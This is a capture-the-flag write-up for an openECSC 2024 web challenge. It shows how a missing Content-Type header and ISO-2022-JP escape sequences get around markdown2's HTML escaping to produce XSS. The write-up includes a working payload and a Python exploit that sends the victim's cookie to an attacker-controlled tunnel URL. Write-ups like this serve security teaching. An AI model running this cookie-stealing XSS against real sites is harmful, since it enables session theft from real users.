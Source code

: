 # openECSC 2024 - Final Round

## [web] Simple MD Server (13 solves)

Yes, another markdown editor, but this time we keep it simple!

Site: [http://simplemdserver.challs.open.ecsc2024.it:47008](http://simplemdserver.challs.open.ecsc2024.it:47008)

Author: Stefano Alberto <@Xato>

## Overview

The application is a simple markdown editor that allows you to save documents to the server and render them after transforming the markdown to html.

The HTTP server is built using the `http.server` library and is extremely simple.
One characteristic of this server is that it does not set the `Content-Type` header in responses.

## Solution

The challenge requires you to exploit an xss to get the flag from a cookie set in the headless used by the bot, to do this you need to get XSS.

The application makes it possible to create html files generated from our input provided to python's `markdown2` library. 
Among the options passed in generating the html is the ability to escape dangerous html, which should prevent getting XSS by checking markdown.


Since the generated html file is returned from the server without the `Content-Type` header and thus without setting a charset, the browser is forced to perform an auto-detection of the charset of the provided file.
This allows us to exploit the bug described in [this blog post](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/).


We can force the browser to use ISO-2022-JP as the encoding.
This allows us to create an html page that is interpreted with the wrong encoding and thus bypass library protection, resulting in XSS.


To persuade the browser used by the bot (firefox) to detect the `ISO-2022-JP` encoding, it is possible to use the encoding escape characters "ESC" + "(" + "B" multiple times (in my tests it was necessary to enter it about 200 times).

This payload causes the browser to first render the page using `ISO-2022-JP` for a few moments, and then render it again using another encoding.

After that you can use the technique proposed by the blog post to get XSS. 
In particular, this payload, preceded by the series of escape sequences,allows you to run an alert in the victim browser.

`![img%1B$@!](file://a)%1B(B ![red]( onerror=alert() )`

The url used as the image source is from a forbidden scheme (`file://`) so that the image request fails faster and triggers the `onerror` handler before the browser has rendered the page with another encoding.

The final payload used to extract the flag was generated with the following python code.

```python
CHALL_URL + '/preview?x=aaa%1B(Baaaaa' + 'a%1B$@!2%1B(B' * 200 + f'''aaaaa%1B(B ![img%1B$@!](file://a)%1B(B ![red]( onerror=location.assign('{my_server_url}?'%26%2343;document.cookie) )www'''
```


## Exploit


```python
#!/usr/bin/env python3

import logging
import os
import re
import requests
import tunnel

logging.disable()

URL = os.environ.get("URL", "http://simplemdserver.challs.open.ecsc2024.it:47008")
if URL.endswith("/"):
    URL = URL[:-1]

with tunnel.open_http_tunnel() as t:
    hook_url = f"http://{t.remote_host}:{t.remote_port}"

    payload = URL + '/preview?x=aaa%1B(Baaaaa' + 'a%1B$@!2%1B(B' * 200 + f'''aaaaa%1B(B ![img%1B$@!](file://a)%1B(B ![red]( onerror=location.assign('{hook_url}?'%26%2343;document.cookie) )wwwww'''
    r = requests.post(URL + '/report', data=payload.encode())
    print(r.text)

    _, path, _, _ = t.wait_request()
    t.send_response(200, {}, b'')

    assert 'flag' in path

    m = re.search(r'(openECSC|flag)\{.+\}', path)
    print(m.group(0))
```